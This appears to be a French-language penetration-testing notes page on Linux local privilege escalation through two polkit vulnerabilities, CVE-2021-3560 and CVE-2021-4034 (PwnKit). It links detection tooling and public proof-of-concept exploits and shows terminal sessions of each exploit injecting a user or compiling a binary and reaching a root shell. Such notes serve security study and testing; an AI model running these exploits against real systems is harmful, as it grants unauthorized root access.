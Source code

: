 # PE : polkit

### CVE-2021-3560

Vulnérabilité permettant à un attaquant d'élever ses privilèges localement sur de multiples distributions, même les plus récentes.

Cette vulnérabilité est détectable avec la version du 6/2/2022 de `linpeas` : [https://github.com/carlospolop/PEASS-ng/releases/download/20220206/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220206/linpeas.sh)

Cette vulnérabilité est exploitable avec le PoC suivant : [https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

Comme indiqué dans l'explication du PoC, il peut-être nécessaire de relancer de multiple fois celui-ci car la vulnérabilité repose sur un _timing_ précis.

#### Exemple

```
[dwight@paper ~]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using sudo - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# 
```

#### Source

[https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

### CVE-2021-4034

Vulnérabilité permettant à un attaquant d'élever ses privilèges localement sur de multiples distributions, même les plus récentes.

Cette vulnérabilité est détectable avec la version du 9/2/2022 de `linpeas` : [https://github.com/carlospolop/PEASS-ng/releases/download/20220209/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220209/linpeas.sh)

Cette vulnérabilité est exploitable avec le PoC suivant : [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)

#### Exemple

```
# gcc poc-pwnkit.c -o poc-pwnkit                                               
# id  
uid=1000(alan) gid=1000(alan) groupes=1000(alan),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),132(scanner),142(kaboxer)               
# ./poc-pwnkit 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),132(scanner),142(kaboxer),1000(alan)
```
